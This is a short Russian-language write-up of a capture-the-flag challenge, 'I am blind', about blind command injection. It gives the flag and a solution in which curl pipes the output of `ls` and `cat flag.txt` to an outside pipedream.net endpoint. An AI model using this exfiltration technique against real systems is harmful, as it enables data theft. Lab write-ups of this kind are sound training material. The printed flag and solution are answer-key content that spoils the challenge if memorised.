 # Название: I am blind
## Описание:
Я ничего не вижу, видимо я слишком долго создавал этот CTF... Надо бы отдохнуть..
### Флаг: 
CTF{i_c4nt_s33_i_4m_blind}
### Хинт:
Как насчёт отправить результаты команды с помощью чего нибудь встроенного к себе на сервер?
### Решение:
Проверяем, что шелл работает пропинговав свой сервер или отправив любой курл на свой сервер/сайт  
Видим, что вывода никакого мы не получаем, нужно работать вслепую и отправлять все результаты себе на сервер.  
Узнаём, где мы находимся `ls | curl --data-urlencode output@- https://eonyz952zg6ppt3.m.pipedream.net`  
Читаем флаг `cat flag.txt | curl --data-urlencode output@- https://eonyz952zg6ppt3.m.pipedream.net`  

